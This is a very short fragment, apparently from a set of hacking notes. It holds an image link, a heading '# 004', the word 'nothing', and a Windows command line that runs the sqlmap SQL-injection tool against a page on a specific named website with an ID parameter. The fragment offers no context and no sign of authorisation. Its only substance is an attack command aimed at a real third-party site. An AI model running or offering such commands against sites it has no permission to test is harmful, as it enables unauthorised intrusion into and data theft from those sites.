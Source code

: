 # 004
nothing
C:\Python27\sqlmap>sqlmap.py -u "http://www.zjctaa.org.cn/ShowSinglePageAction.do?singlepageID=1"
